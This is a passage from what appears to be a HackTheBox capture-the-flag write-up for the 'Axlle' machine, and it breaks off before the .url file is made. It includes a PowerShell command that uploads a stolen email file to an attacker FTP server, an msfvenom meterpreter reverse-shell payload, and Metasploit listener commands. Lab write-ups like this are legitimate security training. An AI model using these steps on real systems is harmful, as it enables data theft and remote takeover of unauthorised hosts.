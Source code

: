 In `C:\Program Files (x86)\hMailServer\Data\axlle.htb\dallon.matrix\2F` we find an `.eml` file.

> An `.eml` file is an email message saved in the MIME RFC 822 standard format. These files are typically created by email programs such as Microsoft Outlook, Mozilla Thunderbird, and others. The `.eml` file format preserves the original email header, body, and any attachments, making it useful for archiving and transferring email messages.

![eml file location](/images/HTB-Axlle/eml_file.png)

We send it to our local machine via FTP (it can also be done with the `download` command in meterpreter used earlier).

```
pip3 install pyftpdlib
python3 -m pyftpdlib --port 21 --write
```

On the target run the command below and you will receive the eml file on the FTP server:

```
(New-Object Net.WebClient).UploadFile('ftp://YOUR_IP/{2F7523BD-628F-4359-913E-A873FCC59D0F}.eml', 'C:\Program Files (x86)\hMailServer\Data\axlle.htb\dallon.matrix\2F\{2F7523BD-628F-4359-913E-A873FCC59D0F}.eml')
```

![eml file download](/images/HTB-Axlle/eml_file_dl.png)

We learn that we can drop some URLs in the `C:\inetpub\testing` folder, and they will be automatically executed.

![content of eml file](/images/HTB-Axlle/webdev-team-email.png)

We can upload a `.url` file that points to a malicious file into the `testing` folder.

> `.url` files are commonly known as internet shortcuts. They are used to create shortcuts to websites or web resources, allowing users to quickly access them without having to navigate through a web browser.

1. Create an `.exe` file with msfvenom.

```
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=YOUR_IP LPORT=PORT_NUMBER -f exe -o payload.exe
```

![malicious exe file](/images/HTB-Axlle/malicious_exe.png)

2. Set up the listener in Metasploit.

```
use exploit/multi/handler
set payload windows/x64/meterpreter/reverse_tcp
set lhost YOUR_IP
set lport PORT_NUMBER
run
```

3. Create the `.url` file with the following content.
